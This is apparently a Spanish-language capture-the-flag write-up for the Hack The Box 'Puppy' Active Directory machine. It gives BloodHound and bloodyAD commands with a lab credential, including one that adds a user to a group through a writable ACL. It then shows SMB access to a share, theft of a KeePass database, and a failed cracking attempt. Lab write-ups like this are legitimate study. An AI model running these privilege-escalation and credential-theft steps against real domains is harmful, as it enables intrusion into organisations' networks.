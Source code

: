 # 5 BloodHound
Bloodhound (colección de datos AD)

Preparación:

Añadir dc.puppy.htb a /etc/hosts.

Sincronizar tiempo: ntpdate puppy.htb.
Explicación: Bloodhound y Kerberos son sensibles al DNS y al tiempo; poner el host y sincronizar evita fallos de autenticación.

bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip

Explicación: ejecuta el collector de Bloodhound para reunir relaciones de AD (usuarios, grupos, ACLs, computadoras) y guarda el resultado en un zip.

Salida: muestra que encontró dominio, usuarios, grupos, GPOs, etc., y genera bloodhound.zip.
Explicación: con esos datos luego los importas a la interfaz de Bloodhound para buscar rutas de escalada de privilegios.

bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james

Explicación: usa credenciales para añadir levi.james al grupo DEVELOPERS mediante una operación que Bloodhound indicó como posible (escribir ACL). Resultado: levi.james agregado al grupo.
Efecto: ahora tienes permisos de grupo que antes no tenías; eso abre acceso al share DEV.

# 6- Acceso al smb Client
smbclient //10.10.11.70/DEV -U levi.james
Explicación: conecta interactiva al share DEV con las credenciales.
Explicación: lista archivos en el share. Resultado muestra KeePassXC-2.7.9-Win64.msi, Projects/, recovery.kdbx, etc.

Acción: descargar recovery.kdbx (archivo de base de datos de KeePass).
Explicación: archivo potencialmente contiene contraseñas; lo guardan localmente para intentar recuperar su contraseña.

# 7-KeepassBrute
Comando intentado: keepass2john recovery.kdbx
Error: a versión del archivo .kdbx no es soportada por la herramienta keepass2john usada
PROCESI A COPIAR EL PASSWORD DEL WRITEUP DE OTRO JUGADOR DE HACK THE BOX	

root@kali] /home/kali/Puppy  
❯ smbclient  //10.10.11.70/DEV -U levi.james  
Password for [WORKGROUP\levi.james]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Wed May 28 12:37:00 2025
  ..                                  D        0  Sat Mar  8 11:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 03:09:12 2025
  Projects                            D        0  Sat Mar  8 11:53:36 2025
  recovery.kdbx                       A     2677  Tue Mar 11 22:25:46 2025
  tiCPYdaK.exe                        A    56320  Wed May 28 12:37:00 2025
